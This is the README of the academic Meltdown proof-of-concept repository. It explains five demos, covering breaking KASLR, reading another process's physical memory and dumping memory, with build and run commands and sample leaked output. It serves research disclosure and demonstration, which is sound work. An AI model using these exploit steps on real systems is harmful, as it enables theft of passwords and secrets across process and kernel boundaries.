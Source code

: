 # Meltdown Proof-of-Concept

This repository contains several applications, demonstrating the [Meltdown bug](https://meltdown.help). For technical information about the bug, refer to the paper: 

* [Meltdown](https://meltdown.help/meltdown.pdf) by Lipp, Schwarz, Gruss, Prescher, Haas, Mangard, Kocher, Genkin, Yarom, and Hamburg

The applications in this repository are built with [libkdump](https://github.com/IAIK/Meltdown/tree/master/libkdump), a library we developed for the paper. This library simplifies exploitation of the bug by automatically adapting to certain properties of the environment. 

## Videos

This repository contains two videos demonstrating Meltdown

 * The [first video (spy)](https://github.com/IAIK/Meltdown/tree/master/videos/spy.mp4) shows how Meltdown can be used to spy in realtime on a password input. 
 * The [second video (memdump)](https://github.com/IAIK/Meltdown/tree/master/videos/memdump.mp4) shows how Meltdown leaks physical memory content. 
 

## Demos

This repository contains five demos to demonstrate different use cases. All demos are tested on Ubuntu 16.04 with an Intel Core i7-6700K, but they should work on any Linux system with any modern Intel CPU since 2010. 

For best results, we recommend a fast CPU that supports Intel TSX (e.g. any Intel Core i7-5xxx, i7-6xxx, or i7-7xxx). 
Furthermore, every demo should be pinned to one CPU core, e.g. with taskset.

### Demo #1: A first test (`test`)

This is the most basic demo. It uses Meltdown to read accessible addresses from the own address space, not breaking any isolation mechanisms. 

If this demo does not work for you, the remaining demos won't most likely not work either. The reasons are manifold, e.g., the CPU could be too slow, not support out-of-order execution, the high-resolution timer is not precicse enough (especially in VMs), the operating system does not support custom signal handlers, etc.

#### Build and Run

```bash
make
taskset 0x1 ./test
```

If you see an output similar to this
```
Expect: Welcome to the wonderful world of microarchitectural attacks
   Got: Welcome to the wonderful world of microarchitectural attacks
```
then the basic demo works.


### Demo #2: Breaking KASLR (`kaslr`)

Starting with Linux kernel 4.12, KASLR (Kernel Address Space Layout Randomizaton) is active by default.  This means, that the location of the kernel (and also the direct phyiscal map which maps the entire physical memory) changes with each reboot. 

This demo uses Meltdown to leak the (secret) randomization of the direct physical map. This demo requires root privileges to speed up the process. The paper describes a variant which does not require root privileges. 

#### Build and Run

```bash
make
sudo taskset 0x1 ./kaslr
```

After a few seconds, you should see something similar to this
```
[+] Direct physical map offset: 0xffff880000000000
```

### Demo #3: Reliability test (`reliability`)

This demo tests how reliable physical memory can be read. For this demo, you either need the direct physical map offset (e.g. from demo #2) or you have to disable KASLR by specifying `nokaslr` in your kernel command line. 

#### Build and Run

Build and start `reliability`. If you do not have KASLR disabled, the first parameter is the offset of the direct physical map. Otherwise, the program does not require a parameter. 
```bash
make
sudo taskset 0x1 ./reliability
```

After a few seconds, you should get an output similar to this:
```
[-] Success rate: 99.93% (read 1354 values)
```

### Demo #4: Read physical memory (`physical_reader`)

This demo reads memory from a different process by directly reading physical memory. For this demo, you either need the direct physical map offset (e.g. from demo #2) or you have to disable KASLR by specifying `nokaslr` in your kernel command line. 

In principal, this program can read arbitrary physical addresses. However, as the physical memory contains a lot of non-human-readable data, we provide a test tool (`secret`), which puts a human-readable string into memory and directly provides the physical address of this string. 

#### Build and Run

For the demo, first run `secret` (as root) to get the physical address of a human-readable string:
```bash
make
sudo ./secret
```

It should output something like this:
```
[+] Secret: If you can read this, this is really bad
[+] Physical address of secret: 0x390fff400
[+] Exit with Ctrl+C if you are done reading the secret
```

Let the `secret` program running, and start `physical_reader`. The first parameter is the phyiscal address printed by `secret`. If you do not have KASLR disabled,  the second parameter is the offset of the direct physical map.
```bash
taskset 0x1 ./physical_reader 0x390fff400
```

After a few seconds, you should get an output similar to this:
```
[+] Physical address       : 0x390fff400
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff880390fff400

If you can read this, this is really bad
```


### Demo #5: Dump the memory (`memdump`)

This demo dumps the content of the memory. As demo #3 and #4, it uses the direct physical map, to dump the contents of the physical memory in a hexdump-like format. 

Again, as the physical memory contains a lot of non-human-readable content, we provide a test tool to fill large amounts of the physical memory with human-readable strings. 

#### Build and Run

For the demo, first run `memory_filler` to fill the memory with human-readable strings. The first argument is the amount of memory (in gigabytes) to fill. 
```bash
make
./memory_filler 9
```

Then, run the `memdump` tool to dump memory contents. If you executed `memory_filler` before, you should see some string fragments. 
If you have Firefox or Chrome with multiple tabs running, you might also see parts of the websites which are open or were recently closed. 

The first parameter is the phyiscal address at which the dump should begin (leave empty to start at the first gigabyte). If you do not have KASLR disabled,  the second parameter is the offset of the direct physical map.

```bash
taskset 0x1 ./memdump 0x240000000  # start at 9 GB
```

You should get a hexdump of parts of the memory (potentially even containing secrets such as passwords, see example in the paper), e.g.:

```
 240001c9f: | 00 6d 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .m.............. |
 24000262f: | 00 7d 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .}.............. |
 24000271f: | 00 00 00 00 00 00 00 00 00 00 00 00 65 6e 20 75 | ............en u |
 24000272f: | 73 65 72 20 73 70 61 63 65 20 61 6e 64 20 6b 65 | ser space and ke |
 24000273f: | 72 6e 65 6c 57 65 6c 63 6f 6d 65 20 74 6f 20 74 | rnelWelcome to t |
 24000298f: | 00 61 72 79 20 62 65 74 77 65 65 6e 20 75 73 65 | .ary between use |
 24000299f: | 72 20 73 70 61 63 65 20 61 6e 64 20 6b 65 72 6e | r space and kern |
 2400029af: | 65 6c 42 75 72 6e 20 61 66 74 65 72 20 72 65 61 | elBurn after rea |
 2400029bf: | 64 69 6e 67 20 74 68 69 73 20 73 74 72 69 6e 67 | ding this string |
 240002dcf: | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c8 | ................ |
 2400038af: | 6a 75 73 74 20 73 70 69 65 64 20 6f 6e 20 61 00 | just spied on a. |
 240003c8f: | 00 00 1e 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ |
 24000412f: | 00 00 00 00 00 00 00 00 00 00 00 00 65 74 73 2e | ............ets. |
 24000413f: | 2e 2e 57 65 6c 63 6f 6d 65 20 74 6f 20 74 68 65 | ..Welcome to the |
 2400042ff: | 00 00 00 00 00 00 00 00 00 6e 67 72 61 74 75 6c | .........ngratul |
 24000430f: | 61 74 69 6f 6e 73 2c 20 79 6f 75 20 6a 75 73 74 | ations, you just |
 24000431f: | 20 73 70 69 65 64 20 6f 6e 20 61 6e 20 61 70 70 |  spied on an app |
```


## Warnings
**Warning #1**: We are providing this code as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may cause unexpected and undesirable behavior to occur on your machine. This code may not detect the vulnerability on your machine.

**Warning #2**: If you find that a computer is susceptible to the Meltdown bug, you may want to avoid using it as a multi-user system. Meltdown breaches the CPU's memory protection. On a machine that is susceptible to the Meltdown bug, one process can read all pages used by other processes or by the kernel.